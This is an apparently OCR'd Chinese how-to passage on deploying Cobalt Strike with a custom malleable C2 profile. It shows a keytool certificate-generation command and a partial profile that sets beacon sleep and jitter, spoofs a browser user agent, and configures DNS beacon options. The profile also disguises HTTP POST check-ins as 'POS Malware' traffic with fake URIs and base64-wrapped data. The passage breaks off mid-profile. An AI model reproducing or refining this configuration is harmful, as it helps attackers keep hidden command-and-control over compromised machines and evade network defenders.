 ##### 老牌工具Cobaltstrike+Profiles
上云和隐藏流量参考[free教程](https://www.freebuf.com/articles/network/262445.html)
1.利用keytool生成自己的免费证书（可在kali上生成）

    keytool -genkey -alias tryblog -keyalg RSA -validity 36500 -keystore tryblog.store

2.C2.profile文件编辑
```
set sample_name "tryblog POS Malware";
 
set sleeptime "5000"; # use a ~30s delay between callbacks
set jitter    "10";    # throw in a 10% jitter
 
set useragent "Mozilla/5.0 (Windows NT 6.1; rv:24.0) Gecko/20100101 Firefox/24.0";
 
#设置证书，注意以下内容得和你之前生成的证书一样
https-certificate {
    set CN       "TRY"; 
    set O        "TRY";   
    set C        "TRY";
    set L        "TRY";
    set OU       "TRY";  
    set ST       "TRY";
    set validity "365";
}
#设置，修改成你的证书名称和证书密码
code-signer{
    set keystore "tryblog.store";
    set password "tryblog";
    set alias "tryblog";
}
 
#指定DNS beacon不用的时候指定到IP地址
set dns_idle "8.8.4.4";
 
#每个单独DNS请求前强制睡眠时间
set dns_sleep "0";
 
#通过DNS上载数据时主机名的最大长度[0-255]
set maxdns    "235";
 
http-post {
    set uri "/windebug/updcheck.php /aircanada/dark.php /aero2/fly.php /windowsxp/updcheck.php /hello/flash.php";
 
    client {
        header "Accept" "text/plain";
        header "Accept-Language" "en-us";
        header "Accept-Encoding" "text/plain";
        header "Content-Type" "application/x-www-form-urltrytryd";
 
        id {
            netbios;
            parameter "id";
        }
 
        output {
            base64;
            prepend "&op=1&id=vxeykS&ui=Josh @ PC&wv=11&gr=backoff&bv=1.55&data=";
            print;
        }
    }
 
    server {
```